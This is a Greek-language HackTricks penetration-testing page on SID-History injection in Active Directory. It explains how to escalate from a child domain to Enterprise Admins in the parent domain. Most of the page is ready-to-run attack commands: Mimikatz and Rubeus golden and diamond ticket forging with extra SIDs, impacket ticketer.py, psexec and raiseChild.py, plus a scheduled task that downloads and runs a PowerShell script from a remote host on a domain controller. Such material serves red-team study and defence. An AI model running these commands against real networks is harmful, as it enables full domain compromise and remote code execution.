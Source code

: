 # SID-History Injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SID History Injection Attack

Η εστίαση της **Επίθεσης Εισαγωγής Ιστορικού SID** είναι η βοήθεια **μεταφοράς χρηστών μεταξύ τομέων** ενώ διασφαλίζεται η συνεχής πρόσβαση σε πόρους από τον πρώην τομέα. Αυτό επιτυγχάνεται με **την ενσωμάτωση του προηγούμενου Αναγνωριστικού Ασφαλείας (SID) του χρήστη στο Ιστορικό SID** του νέου του λογαριασμού. Σημαντικό είναι ότι αυτή η διαδικασία μπορεί να παραποιηθεί για να παραχωρήσει μη εξουσιοδοτημένη πρόσβαση προσθέτοντας το SID μιας ομάδας υψηλών προνομίων (όπως οι Enterprise Admins ή οι Domain Admins) από τον γονικό τομέα στο Ιστορικό SID. Αυτή η εκμετάλλευση παρέχει πρόσβαση σε όλους τους πόρους εντός του γονικού τομέα.

Δύο μέθοδοι υπάρχουν για την εκτέλεση αυτής της επίθεσης: μέσω της δημιουργίας είτε ενός **Golden Ticket** είτε ενός **Diamond Ticket**.

Για να προσδιορίσετε το SID της ομάδας **"Enterprise Admins"**, πρέπει πρώτα να εντοπίσετε το SID του ριζικού τομέα. Αφού γίνει η αναγνώριση, το SID της ομάδας Enterprise Admins μπορεί να κατασκευαστεί προσθέτοντας `-519` στο SID του ριζικού τομέα. Για παράδειγμα, αν το SID του ριζικού τομέα είναι `S-1-5-21-280534878-1496970234-700767426`, το προκύπτον SID για την ομάδα "Enterprise Admins" θα ήταν `S-1-5-21-280534878-1496970234-700767426-519`.

Μπορείτε επίσης να χρησιμοποιήσετε τις ομάδες **Domain Admins**, οι οποίες τελειώνουν σε **512**.

Ένας άλλος τρόπος για να βρείτε το SID μιας ομάδας του άλλου τομέα (για παράδειγμα "Domain Admins") είναι με:
```powershell
Get-DomainGroup -Identity "Domain Admins" -Domain parent.io -Properties ObjectSid
```
### Χρυσό Εισιτήριο (Mimikatz) με KRBTGT-AES256

{% code overflow="wrap" %}
```bash
mimikatz.exe "kerberos::golden /user:Administrator /domain:<current_domain> /sid:<current_domain_sid> /sids:<victim_domain_sid_of_group> /aes256:<krbtgt_aes256> /startoffset:-10 /endin:600 /renewmax:10080 /ticket:ticket.kirbi" "exit"

/user is the username to impersonate (could be anything)
/domain is the current domain.
/sid is the current domain SID.
/sids is the SID of the target group to add ourselves to.
/aes256 is the AES256 key of the current domain's krbtgt account.
--> You could also use /krbtgt:<HTML of krbtgt> instead of the "/aes256" option
/startoffset sets the start time of the ticket to 10 mins before the current time.
/endin sets the expiry date for the ticket to 60 mins.
/renewmax sets how long the ticket can be valid for if renewed.

# The previous command will generate a file called ticket.kirbi
# Just loading you can perform a dcsync attack agains the domain
```
{% endcode %}

Για περισσότερες πληροφορίες σχετικά με τα χρυσά εισιτήρια, ελέγξτε:

{% content-ref url="golden-ticket.md" %}
[golden-ticket.md](golden-ticket.md)
{% endcontent-ref %}

### Διαμαντένιο Εισιτήριο (Rubeus + KRBTGT-AES256)

{% code overflow="wrap" %}
```powershell
# Use the /sids param
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /krbkey:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /nowrap

# Or a ptt with a golden ticket
Rubeus.exe golden /rc4:<krbtgt hash> /domain:<child_domain> /sid:<child_domain_sid>  /sids:<parent_domain_sid>-519 /user:Administrator /ptt

# You can use "Administrator" as username or any other string
```
{% endcode %}

Για περισσότερες πληροφορίες σχετικά με τα διαμάντι εισιτήρια, ελέγξτε:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

{% code overflow="wrap" %}
```bash
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
.\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
```
{% endcode %}

Αναβάθμιση σε DA του root ή Enterprise admin χρησιμοποιώντας το hash KRBTGT του παραβιασμένου τομέα:

{% code overflow="wrap" %}
```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-211874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'

Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'

gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local

schtasks /create /S mcorp-dc.moneycorp.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "STCheck114" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"

schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck114"
```
{% endcode %}

Με τις αποκτηθείσες άδειες από την επίθεση μπορείτε να εκτελέσετε για παράδειγμα μια επίθεση DCSync στο νέο τομέα:

{% content-ref url="dcsync.md" %}
[dcsync.md](dcsync.md)
{% endcontent-ref %}

### Από linux

#### Χειροκίνητα με [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py)

{% code overflow="wrap" %}
```bash
# This is for an attack from child to root domain
# Get child domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep "Domain SID"
# Get root domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep -B20 "Enterprise Admins" | grep "Domain SID"

# Generate golden ticket
ticketer.py -nthash <krbtgt_hash> -domain <child_domain> -domain-sid <child_domain_sid> -extra-sid <root_domain_sid> Administrator

# NOTE THAT THE USERNAME ADMINISTRATOR COULD BE ACTUALLY ANYTHING
# JUST USE THE SAME USERNAME IN THE NEXT STEPS

# Load ticket
export KRB5CCNAME=hacker.ccache

# psexec in domain controller of root
psexec.py <child_domain>/Administrator@dc.root.local -k -no-pass -target-ip 10.10.10.10
```
{% endcode %}

#### Αυτόματα χρησιμοποιώντας [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py)

Αυτό είναι ένα σενάριο Impacket που θα **αυτοματοποιήσει την αναβάθμιση από το παιδικό στο γονικό domain**. Το σενάριο χρειάζεται:

* Στόχο domain controller
* Διαπιστευτήρια για έναν διαχειριστή χρήστη στο παιδικό domain

Η ροή είναι:

* Αποκτά το SID για την ομάδα Enterprise Admins του γονικού domain
* Ανακτά το hash για τον λογαριασμό KRBTGT στο παιδικό domain
* Δημιουργεί ένα Golden Ticket
* Συνδέεται στο γονικό domain
* Ανακτά διαπιστευτήρια για τον λογαριασμό Administrator στο γονικό domain
* Εάν έχει καθοριστεί η επιλογή `target-exec`, αυθεντικοποιείται στον Domain Controller του γονικού domain μέσω Psexec.
```bash
raiseChild.py -target-exec 10.10.10.10 <child_domain>/username
```
## Αναφορές
* [https://adsecurity.org/?p=1772](https://adsecurity.org/?p=1772)
* [https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/](https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
